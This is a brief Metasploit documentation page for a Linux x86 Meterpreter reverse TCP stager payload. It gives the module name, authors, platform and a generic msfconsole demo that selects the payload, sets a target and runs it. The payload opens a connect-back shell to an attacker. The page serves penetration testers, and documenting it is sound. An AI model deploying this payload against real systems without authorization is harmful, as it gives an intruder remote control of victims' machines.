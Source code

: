## Linux Meterpreter, Reverse TCP Stager

Inject the meterpreter server payload (staged). Connect back 
to the attacker


## Module Name
payload/linux/x86/meterpreter/reverse_nonx_tcp

## Authors
* PKS
* egypt
* OJ Reeves
* skape





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/meterpreter/reverse_nonx_tcp
msf payload(reverse_nonx_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_nonx_tcp) > set TARGET <target-id>
msf payload(reverse_nonx_tcp) > show options
   ... show and set options ...
msf payload(reverse_nonx_tcp) > run
```
    
    